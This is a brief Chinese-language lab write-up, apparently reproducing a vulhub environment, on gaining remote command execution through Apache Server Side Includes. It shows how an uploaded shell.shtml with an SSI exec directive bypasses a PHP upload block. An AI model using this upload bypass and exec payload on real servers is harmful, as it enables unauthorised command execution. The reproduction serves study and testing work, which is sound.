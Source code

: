 Apache SSI 远程命令执行漏洞
===========================

一、漏洞简介
------------

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用\`\`语法执行任意命令。

二、漏洞影响
------------

三、复现过程
------------

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

    <!--#exec cmd="ls" -->

![](resource/ApacheSSI远程命令执行漏洞/media/rId24.png)

成功上传，然后访问shell.shtml，可见命令已成功执行：

![](resource/ApacheSSI远程命令执行漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/httpd/ssi-rce/
